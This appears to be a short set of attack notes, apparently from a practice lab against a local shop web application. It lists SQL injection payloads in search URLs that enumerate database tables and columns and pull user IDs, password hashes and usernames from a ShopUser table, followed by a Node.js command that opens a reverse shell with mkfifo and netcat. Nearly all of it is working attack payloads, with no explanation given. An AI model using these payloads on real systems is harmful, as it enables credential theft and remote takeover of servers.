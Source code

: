 " order by itemStock --

http://localhost:3000/search?s=%22%20and%201=2%20UNION%20SELECT%201,%20table_name,%201,%201%20FROM%20information_schema.tables%20%20--%20

http://localhost:3000/search?s=%22%20and%201=2%20UNION%20SELECT%201,%20column_name,%201,%201%20FROM%20information_schema.columns%20where%20table_name%20=%22ShopUser%22%20%20--%20


http://localhost:3000/search?s=%22%20and%201=2%20UNION%20SELECT%20userID,%20userHash,%20userName,%201%20FROM%20ShopUser%20%20--%20



require('child_process').exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 127.0.0.1 1337 >/tmp/f')